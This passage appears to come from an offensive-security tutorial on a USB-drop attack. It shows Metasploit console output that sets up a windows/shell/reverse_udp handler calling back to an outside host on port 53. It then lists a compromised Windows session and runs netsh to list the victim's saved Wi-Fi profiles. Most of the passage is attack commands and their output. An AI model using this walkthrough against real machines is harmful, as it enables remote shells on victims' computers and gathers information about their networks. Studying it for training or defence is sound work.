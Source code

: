 ```

[*] Processing /opt/unicorn/unicorn.rc for ERB directives.
resource (/opt/unicorn/unicorn.rc)> use multi/handler
resource (/opt/unicorn/unicorn.rc)> set payload windows/shell/reverse_udp
payload => windows/shell/reverse_udp
resource (/opt/unicorn/unicorn.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (/opt/unicorn/unicorn.rc)> set LPORT 53
LPORT => 53
resource (/opt/unicorn/unicorn.rc)> set ExitOnSession false
ExitOnSession => false
resource (/opt/unicorn/unicorn.rc)> set EnableStageEncoding true
EnableStageEncoding => true
resource (/opt/unicorn/unicorn.rc)> exploit -j
[*] Exploit running as background job 0.

[*] Started reverse handler on 1.2.3.4:53
msf exploit(multi/handler) >
```


When files on a USB drive are opened, a new connection is established to the Metasploit session. From the `msfconsole` terminal, use the sessions command to view compromised machines.

```
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x86/windows  Microsoft Windows [Version 10.0.16299.431] (c) 2017 Microsoft Corporation. Al...  1.2.3.4:53 -> x.x.x.x:53480 (x.x.x.x)
```

Interact with the session with `session -i 1`. Use the below `netsh` command to view Wi-Fi networks the Windows machine has connected to in the past.

```
C:\Users\IEUser> netsh wlan show profiles

Profiles on interface Wi-Fi:

Group policy profiles (read only)
---------------------------------
    <None>

User profiles
-------------
    All User Profile     : 446CF4
    All User Profile     : Tatooine
    All User Profile     : 3PVXQ
    All User Profile     : Stewie
    All User Profile     : FiOS-6DH1H
    All User Profile     : attwifi
    All User Profile     : Death Star
    All User Profile     : Belkin.4412
    All User Profile     : garden-guest
    All User Profile     : Jedi Temple
    All User Profile     : cradle233
    All User Profile     : Lando Calrissian
    All User Profile     : TransitWirelessWiFi
    All User Profile     : StudioWifi
```